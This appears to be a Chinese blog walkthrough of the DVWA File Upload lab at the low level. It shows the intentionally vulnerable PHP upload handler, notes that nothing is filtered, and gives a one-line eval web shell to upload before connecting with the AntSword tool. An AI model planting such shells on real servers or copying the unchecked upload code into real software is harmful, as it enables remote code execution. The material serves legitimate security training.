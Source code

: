 ```yaml
---
layout:    post
title:     DVWA之FileUpload
subtitle:  学习学习
date:      2020-12-13
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - DVWA
---
```


#### File Upload

##### low

```
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?> 
```

**basename(path,suffix): ** 函数返回路径中的文件名部分，如果可选参数suffix为空，则返回文件名包含后缀名，反之不包含后缀名。

**move_uploaded_file(file,newloc)：** 将上传的文件移动到新位置。file:要移动的文件。newloc:文件的新位置。

没有对上传文件的类型，内容做任何的检测，过滤，可直接进行上传。

采用用一句话木马：

```
<?php @eval($_POST['hack']);?>
```

[![rnP6h9.png](https://s3.ax1x.com/2020/12/14/rnP6h9.png)](https://imgchr.com/i/rnP6h9)

用蚁剑连接看看：
